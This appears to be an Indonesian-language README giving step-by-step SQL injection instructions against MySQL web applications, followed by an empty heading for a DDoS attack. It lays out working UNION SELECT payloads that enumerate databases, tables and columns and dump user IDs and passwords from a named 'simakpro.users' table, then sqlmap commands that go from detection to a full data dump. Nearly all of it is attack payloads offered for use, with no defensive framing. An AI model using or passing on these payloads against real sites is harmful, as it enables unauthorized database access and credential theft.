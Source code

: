 ## Langkah-langkah melakukan SQL Injection secara manual
* Mencari tahu apakah inputan memiliki vuln untuk dilakukan sql injection dengan memasukan karakter `' atau "` pada value inputan
* Apabila terdapat vuln, maka masukan script `' ORDER BY n #`, Cth: `' ORDER BY 1 #`, `' ORDER BY 2 #`, `' ORDER BY 3 #`, dst sampai menemukan error, Script ini berguna untuk mengetahui jumlah tables dalam database.
* Apabila memasukan script di URL maka gunakan `' --+`, apabila di inputan maka gunakan `' #` (`--+` penutup script di URL, `#` penutup script di inputan).
* Selanjutnya jika sudah diketahui banyaknya tables, maka jalankan script berikut, Cth:
```bash
' UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10 #
```
* Selanjutnya, untuk mengetahui user dan nama database yang digunakan menggunakan script berikut, Cth:
```bash
' UNION ALL SELECT 1,2,3,user(),5,6,7,database(),9,10 #
```

* Selanjutnya, untuk mengetahui list database yang tersimpan pada MYSQL, menggunakan script berikut, Cth:
```bash
' UNION ALL SELECT 1,2,3,schema_name,5,6,7,8,9,10 FROM information_schema.schemata #
```

* Selanjutnya, untuk mendapatkan list tables dari database tertentu, menggunakan script berikut, Cth:
```bash
' UNION SELECT 1,2,3,table_name,5,6,7,8,9,10 FROM information_schema.tables WHERE table_schema = 'simakpro' #
```

* Selanjutnya, untuk mendapatkan informasi yang lebih spesifik kolom-kolom dari sebuah table, menggunakan script berikut, Cth:
```bash
' UNION SELECT 1,2,3,column_name,5,6,7,column_type,9,10 FROM information_schema.columns WHERE table_schema = 'simakpro'  AND table_name = 'users' #
```

* Terakhir, untuk mendapatkan record data dalam table yang dipilih, menggunakan script berikut, Cth:
```bash
' UNION SELECT 1,2,3,CONCAT(usrid,' - ',passwd,' - ',level, ' - ', type_user),5,6,7,8,9,10 FROM simakpro.users #
```

* Tambahan, Apabila column input tidak bisa menampilkan data secara perulangan maka bisa menggunakan fungsi: `GROUP_CONCAT(variable_name)`, Cth: `' UNION SELECT 1,GROUP_CONCAT(schema_name) FROM information_schema.schemata #`


## Langkah-langkah melakukan SQL Injection secara otomatis menggunakan SQLMAP
* Mencari tahu apakah aplikasi website memiliki vuln sql injection dengan memasukan script ' secara manual ke inputan.
* Selanjutnya, Masukan perintah berikut untuk mengetahui vuln sql injectionnya
```bash
sqlmap -u "linkinputvulnSqlInjection"
```
* Selanjutnya, Masukan perintah berikut untuk mengetahui daftar isi databasenya
```bash
sqlmap -u "linkinputvulnSqlInjection" --dbs
```
* Selanjutnya, Masukan perintah berikut untuk melihat daftar tables didalam database yang dipilih
```bash
sqlmap -u "linkinputvulnSqlInjection" -D db_name --tables
```
* Selanjutnya, Masukan perintah berikut untuk melihat struktur tables yang dipilih
```bash
sqlmap -u "linkinputvulnSqlInjection" -D db_name -T table_name --columns
```
* Terakhir, Masukan perintah berikut untuk melihat record data didalam tables dari nama columns yang dipilih
```bash
sqlmap -u "linkinputvulnSqlInjection" -D db_name -T table_name name_columns,name_columns --dump
```

## Langkah-langkah melakukan Attack DDOS 

